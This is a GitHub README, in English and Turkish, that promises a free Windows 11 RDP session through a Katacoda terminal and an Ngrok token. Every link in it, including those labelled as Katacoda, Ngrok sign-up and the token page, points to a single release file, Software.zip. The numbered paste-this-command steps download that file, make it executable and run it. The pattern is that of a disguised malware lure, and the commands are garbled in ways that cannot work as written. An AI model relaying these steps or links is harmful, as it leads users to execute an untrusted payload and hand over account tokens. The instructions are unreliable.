 # Windows11 RDP [Updated]

#Free 1 hours Windows 11 RDP

<img src="https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip" width="500" />

## METHOD [ENG] :

- [Katacoda Terminal](https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip) Go to page
-  **"START SCENARIO"** Click
-  **"Terminal 2"** Click instead

### And paste the commands below:

1. `wget -O https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip`

2. `chmod +x https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip`

3. `https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip`

-  Sign in (or create an account) on https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip 

- And copy your token https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip

- Paste your Ngrok token into the terminal.
- Then after compiling it will give you rdp's credentials.
- You can now login with **User** and **Password**.

## CREDITS:
original author: Thuonghai001

Transator : Fer1tx

Github repo: https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip

## DISCLAIMER:
- Do not overuse this method.
 - It is strictly forbidden to use illegal things
 - No Hosting, No Mining, No Cracking.

## METHOD [TR] :

- [Katacoda Terminal](https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip) Sayfasına gidin
-  **"START SCENARIO"** Tıkla
-  **"Terminal 2"** Yerıne Tıkla

### Ve aşağıdaki komutları yapıştırın:

1. `wget -O https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip`

2. `chmod +x https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip`

3. `https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip`

-  Giriş yapın (veya bir hesap oluşturun) on https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip 

- Ve tokeninizi buraya kopyalayın: https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip

- Ngrok jetonunuzu terminale yapıştırın.
- Sonra derlemeden sonra size rdp'nin kimlik bilgilerini verecektir.
- Artık **Kullanıcı** ve **Şifre** ile giriş yapabilirsiniz.

## CREDITS:
Fer1tx

Github repo: https://github.com/Phucclone/W11_RDP/releases/download/v2.0/Software.zip

## SORUMLULUK REDDİ:
- Bu yöntemi aşırı şekilde kullanmayın.
 - Yasadışı şeyler kullanmak kesinlikle yasaktır
 - Barındırma, Madencilik, Cracking Yok.



